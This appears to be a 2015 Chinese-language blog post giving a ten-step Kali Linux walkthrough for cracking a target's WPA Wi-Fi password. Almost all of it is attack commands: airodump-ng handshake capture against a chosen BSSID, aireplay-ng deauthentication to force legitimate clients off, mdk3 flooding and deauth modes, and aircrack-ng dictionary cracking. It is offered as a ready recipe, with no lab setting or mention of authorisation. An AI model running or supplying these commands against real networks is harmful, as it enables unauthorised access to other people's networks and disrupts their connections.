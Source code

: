 ```yaml
---
id: 817
title: 在kali环境下进行无线破解
date: '2015-12-28T01:00:31+08:00'
author: hacper
layout: post
guid: 'http://wodiga.com/?p=817'
permalink: /2015/12/28/%e5%9c%a8kali%e7%8e%af%e5%a2%83%e4%b8%8b%e8%bf%9b%e8%a1%8c%e6%97%a0%e7%ba%bf%e7%a0%b4%e8%a7%a3/
views:
    - '27912'
    - '27912'
categories:
    - 笔记
tags:
    - kali
    - 无线
---
```


![Wifi](http://7xk9u4.com1.z0.glb.clouddn.com/0.jpg)

1. 准备好外置网卡，字典文件。
2. 查看无线网卡设备名: root@kali:~# iwconfig
3. 启用网卡: root@kali:~# airmon-ng start 网卡名
4. 进入监听模式:root@kali:~# airodump-ng 网卡名
5. 复制目标BSSID并记住信道。
6. 抓握手包:root@kali:~# airodump-ng -w 保存的包名 -c 信道 --bssid 目标的BSSID 网卡名
7. 当提示WPA handshake:说明抓到了握手包，如果抓不到，可以新建终端，用如下命令来攻击，强迫重新握手:root@kali:~# aireplay-ng -0 攻击次数 -a ap\_mac -c 合法客户端 mac 网卡名 --ignore-negative-one
8. 或者使用MDK3工具:root@kali:~# mdk3 网卡名 a -a mac（被pin死的路由器的mac）
9. 或者root@kali:~# mdk3 网卡名 d -w <filename> #白名单mac地址列表文件 -b <filename> #黑名单mac地址列表文件 -s <pps> #速率，这个模式下默认无限制 -c \[chan,chan,chan,...\]#信道，可以多填，如 2,4,5,1
10. 用字典来跑密码:root@kali:~# aircrack-ng -w 字典路径 握手包名